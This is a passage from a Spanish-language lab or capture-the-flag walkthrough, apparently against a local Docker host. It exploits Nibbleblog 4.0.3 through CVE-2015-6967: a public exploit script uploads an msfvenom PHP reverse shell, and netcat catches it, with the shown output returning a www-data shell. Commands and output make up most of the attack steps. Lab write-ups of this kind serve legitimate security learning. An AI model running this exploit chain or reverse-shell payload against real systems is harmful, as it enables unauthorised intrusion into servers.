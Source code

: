 Viendo que entramos al panel de control, vamos directamente a General Settings para ver si podemos sacar informacion y vemos que la version de Nibbleblog instalada es la 4.0.3

Sabiendo esto, vamos a buscar en github si existe alguna vulnerabilidad, hecho lo cual, vemos que hay una.

En mi caso he ido al siguiente enlace de github:
https://github.com/dix0nym/CVE-2015-6967
de donde clonaremos el repositorio:
```
git clone https://github.com/dix0nym/CVE-2015-6967.git
```
Una vez clonado, vemos que su uso es el siguiente:
```
usage: exploit.py [-h] --url URL --username USERNAME --password PASSWORD --payload PAYLOAD

optional arguments:
  -h, --help            show this help message and exit
  --url URL, -l URL
  --username USERNAME, -u USERNAME
  --password PASSWORD, -p PASSWORD
  --payload PAYLOAD, -x PAYLOAD

Y como ejemplo tenemos:
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```
Bien, tomando esto como referencia, lo que vamos a hacer es crear con "msfvenom" una "reverse.php"
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverse.php
```
Una vez obtenido el archivo "reverse.php" pasamos a abrir un terminal para ponernos a la escucha con NETCAT por el puerto 443 en este caso y lanzaremos el exploit:
```
python3 exploit.py --url http://172.17.0.2/nibbleblog/ --username admin --password admin --payload reverse.php
[+] Login Successful.
[-] Upload likely failed.
[!] Exploit failed.
```
Pero tal y como se ve, el exploit falla. ¿Y por que? Facil, parece ser que la vulnerabilidad tiene que ver con el plugin de Nibbleblog "My Image", el cual NO esta instalado, por lo que lo instalaremos.

Una vez hecho, volvemos a ponernos a la escucha con NETCAT por el puerto 443 y de nuevo probamos con el comando anterior, el cual esta vez SI funciona tal y como se ve a continuacion:
```
TERMINAL PARA EJECUTAR EL PAYLOAD:

python3 exploit.py --url http://172.17.0.2/nibbleblog/ --username admin --password admin --payload reverse.php
[+] Login Successful.
[+] Upload likely successfull.   <=== Esta vez todo perfecto


TERMINAL DONDE ESTAMOS ESCUCHANDO CON NETCAT

nc -nlvp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33838
whoami
www-data
```
Como hemos usado "msfvenom" con una shell en formato ".php", esta no suele ser muy estable, por lo que abriremos en otra terminal otro NETCAT por el puerto 444 para estabilizar la conexion.
